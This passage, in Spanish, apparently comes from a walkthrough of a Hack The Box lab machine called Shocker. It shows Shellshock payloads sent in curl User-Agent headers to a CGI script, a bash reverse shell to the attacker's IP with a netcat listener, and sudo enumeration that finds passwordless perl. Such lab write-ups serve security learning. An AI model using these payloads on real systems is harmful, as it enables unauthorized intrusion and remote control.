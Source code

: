 ```bash
```

Vemos que nos manda un código de estado 500 *Internal Server Error*, vamos a tratar de poner el comando bajo la ruta absoluta:

```bash
❯ curl -H "User-Agent: () { :; }; /usr/bin/whoami" http://10.10.10.56/cgi-bin/user.sh
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at 
 webmaster@localhost to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.10.10.56 Port 80</address>
</body></html>
```

Tampoco no le gusta, así que vamos a introducir un `echo;`:

```bash
❯ curl -H "User-Agent: () { :; }; echo; /usr/bin/whoami" http://10.10.10.56/cgi-bin/user.sh
shelly
```

Ahora si le gustó, ya tenemos ejecución de comando; por lo tanto vamos a tratar de entablarnos una reverse shell, asi que nos ponemos en escucha por el puerto 443:

```bash
❯ curl -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/10.10.14.27/443 0>&1" http://10.10.10.56/cgi-bin/user.sh
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.56] 56042
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ whoami
whoami
shelly
shelly@Shocker:/usr/lib/cgi-bin$
```

Ya nos encontramos dentro de la máquina y podemos visualizar la flag (user.txt). Para trabajar más cómodos, vamos a hacer un [Tratamiento de la tty](/posts/tratamiento-tty). Ahora vamos a enumerar un poco el sistema para ver una forma de escalar privilegios.

```bash
shelly@Shocker:/home/shelly$ id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker:/home/shelly$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/home/shelly$
```
